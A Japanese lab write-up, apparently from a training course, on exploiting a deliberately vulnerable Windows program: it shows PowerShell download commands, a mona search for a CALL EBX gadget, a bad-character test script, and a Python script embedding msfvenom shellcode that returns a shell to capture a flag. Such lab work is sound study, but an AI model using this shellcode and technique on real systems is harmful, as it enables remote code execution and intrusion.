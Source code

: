 ![2022-12-13_11-29-33.png](../_resources/2022-12-13_11-29-33.png)

RDPで192.168.195.10に接続しbad-characters-windows-1.exeをダウンロードする

```
PS C:\Users\student> $wc = New-Object System.Net.WebClient
PS C:\Users\student> $wc.DownloadFile("http://192.168.195.60/bad-characters-windows-1.exe","C:\Users\student\Downloads\bad-characters-windows-1.exe")
```

bad-characters-windows-1.exeを実行するために必要なのでexploit.txtファイルを作成しておく ![2022-12-13_11-48-26.png](../_resources/2022-12-13_11-48-26.png)

Ctrl + fで検索窓を開き「CALL EBX」と入力 　 F2でブレイクポイントを作成しておく

![2022-12-13_11-51-34.png](../_resources/2022-12-13_11-51-34.png)

monaコマンド実行

```
!mona find -s "\xff\xd3" -m "bad-characters-windows-1.exe"
```

![2022-12-13_11-58-07.png](../_resources/2022-12-13_11-58-07.png)

Ctrl + F6でもどる

Checking for bad characters pythonで00からＦＦまでの文字の入ったexploit.txtを作成する

```
#!/usr/bin/python3

badchars = b""
badchars += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars += b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars += b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars += b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars += b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars += b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
badchars += b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars += b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars += b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("exploit.txt", "wb")
f.write(badchars)
f.close()
```

![2022-12-13_12-37-47.png](../_resources/2022-12-13_12-37-47.png)

pythonでサーバーをたてターゲット端末でexploit.txtをダウンロードする

```
PS C:\Users\student> $wc.DownloadFile("http://192.168.119.195:8000/exploit.txt","C:\Users\student\Downloads\exploit.txt")
```

Immunity Debuggerでbad-chracters-windows-1.exeを実行

![2022-12-13_12-45-16.png](../_resources/2022-12-13_12-45-16.png)

1.  F9で実行したらEBPを右クリック＞Follw Follw Dumpを選択
2.  左下Hex dumpの値を確認していく
3.  「00」が出てきたらそれがbad characterになる
4.  exploit.txtからbad characterがなくなるまで繰り返す

最終的なBad Charactersは
「00 0A 1A 2F 95 A7」になる

## shellcodeの作成

msfvenomで作成 ![2022-12-13_12-53-47.png](../_resources/2022-12-13_12-53-47.png)

create-exploit.pyを作成し、最終的なexploit.txtを完成させる

```
#!/usr/bin/python3

shellcode =  b""
shellcode += b"\xbd\xe5\xb7\x87\x83\xd9\xe8\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x52\x31\x68\x12\x83\xe8\xfc"
shellcode += b"\x03\x8d\xb9\x65\x76\xb1\x2e\xeb\x79\x49\xaf"
shellcode += b"\x8c\xf0\xac\x9e\x8c\x67\xa5\xb1\x3c\xe3\xeb"
shellcode += b"\x3d\xb6\xa1\x1f\xb5\xba\x6d\x10\x7e\x70\x48"
shellcode += b"\x1f\x7f\x29\xa8\x3e\x03\x30\xfd\xe0\x3a\xfb"
shellcode += b"\xf0\xe1\x7b\xe6\xf9\xb3\xd4\x6c\xaf\x23\x50"
shellcode += b"\x38\x6c\xc8\x2a\xac\xf4\x2d\xfa\xcf\xd5\xe0"
shellcode += b"\x70\x96\xf5\x03\x54\xa2\xbf\x1b\xb9\x8f\x76"
shellcode += b"\x90\x09\x7b\x89\x70\x40\x84\x26\xbd\x6c\x77"
shellcode += b"\x36\xfa\x4b\x68\x4d\xf2\xaf\x15\x56\xc1\xd2"
shellcode += b"\xc1\xd3\xd1\x75\x81\x44\x3d\x87\x46\x12\xb6"
shellcode += b"\x8b\x23\x50\x90\x8f\xb2\xb5\xab\xb4\x3f\x38"
shellcode += b"\x7b\x3d\x7b\x1f\x5f\x65\xdf\x3e\xc6\xc3\x8e"
shellcode += b"\x3f\x18\xac\x6f\x9a\x53\x41\x7b\x97\x3e\x0e"
shellcode += b"\x48\x9a\xc0\xce\xc6\xad\xb3\xfc\x49\x06\x5b"
shellcode += b"\x4d\x01\x80\x9c\xb2\x38\x74\x32\x4d\xc3\x85"
shellcode += b"\x1b\x8a\x97\xd5\x33\x3b\x98\xbd\xc3\xc4\x4d"
shellcode += b"\x11\x93\x6a\x3e\xd2\x43\xcb\xee\xba\x89\xc4"
shellcode += b"\xd1\xdb\xb2\x0e\x7a\x71\x49\xd9\x45\x2e\x26"
shellcode += b"\xda\x2e\x2d\xc8\xdd\x15\xb8\x2e\xb7\x79\xed"
shellcode += b"\xf9\x20\xe3\xb4\x71\xd0\xec\x62\xfc\xd2\x67"
shellcode += b"\x81\x01\x9c\x8f\xec\x11\x49\x60\xbb\x4b\xdc"
shellcode += b"\x7f\x11\xe3\x82\x12\xfe\xf3\xcd\x0e\xa9\xa4"
shellcode += b"\x9a\xe1\xa0\x20\x37\x5b\x1b\x56\xca\x3d\x64"
shellcode += b"\xd2\x11\xfe\x6b\xdb\xd4\xba\x4f\xcb\x20\x42"
shellcode += b"\xd4\xbf\xfc\x15\x82\x69\xbb\xcf\x64\xc3\x15"
shellcode += b"\xa3\x2e\x83\xe0\x8f\xf0\xd5\xec\xc5\x86\x39"
shellcode += b"\x5c\xb0\xde\x46\x51\x54\xd7\x3f\x8f\xc4\x18"
shellcode += b"\xea\x0b\xf4\x52\xb6\x3a\x9d\x3a\x23\x7f\xc0"
shellcode += b"\xbc\x9e\xbc\xfd\x3e\x2a\x3d\xfa\x5f\x5f\x38"
shellcode += b"\x46\xd8\x8c\x30\xd7\x8d\xb2\xe7\xd8\x87"

f = open("exploit.txt", "wb")
f.write(shellcode)
f.close()
```

作成されたexploit.txtをターゲット端末にコピーしImmunity Debuggerを実行するとシェルが帰ってくる

![2022-12-13_13-02-06.png](../_resources/2022-12-13_13-02-06.png)

このexploit.txtを用いて対象端末でflagを獲得する

![2022-12-13_13-05-55.png](../_resources/2022-12-13_13-05-55.png)

コマンドを実行したらCtrl + cで終了させるとシェルが帰ってくる

![2022-12-13_13-07-24.png](../_resources/2022-12-13_13-07-24.png)

後はフラグを獲得する